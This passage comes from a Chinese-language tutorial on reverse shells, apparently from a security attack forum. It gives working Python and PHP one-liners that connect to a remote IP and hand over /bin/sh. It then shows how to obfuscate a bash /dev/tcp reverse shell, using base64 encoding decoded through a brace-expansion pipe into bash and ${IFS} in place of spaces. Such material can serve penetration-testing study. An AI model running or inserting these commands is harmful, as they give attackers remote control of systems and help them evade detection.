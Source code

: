 这里的shell，除了sh，还有如下：

```php
bash、pwsh、ash、bsh、csh、ksh、zsh、tcsh等
```

此外，还有很多其他的例子

#### python

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.11.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-996b991b751cef6c450d8af8fbe9708d811f8603.png)

数据流图如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-57f38c9406451c007bf03fe5163ad7fcc1c82486.png)

#### php

```bash
php -r '$sock=fsockopen("10.0.11.6",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e65ded3e16979847e395751251bf047b10a85574.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3e3f11b42b1dd1c855491063c7df9491e066c541.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-34028d931b6bcebfd076f48b31fbd115ccb553f3.png)

中级
--

这一阶段分成两部分，一个是基于上面命令的混淆，还有一个是引入一个“中转”的机制

### 1. 混淆（双向）

base64编码

```bash
echo "sh -i >& /dev/tcp/172.16.0.104/1234 0>&1"|base64

c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjAuMTA0LzEyMzQgMD4mMQo=
```

```bash
{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjAuMTA0LzEyMzQgMD4mMQo=}|{base64,-d}|{bash,-i}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-5398a2298827f5a03585f14ef14096e3eae006c3.png)

`${IFS}`代替空格
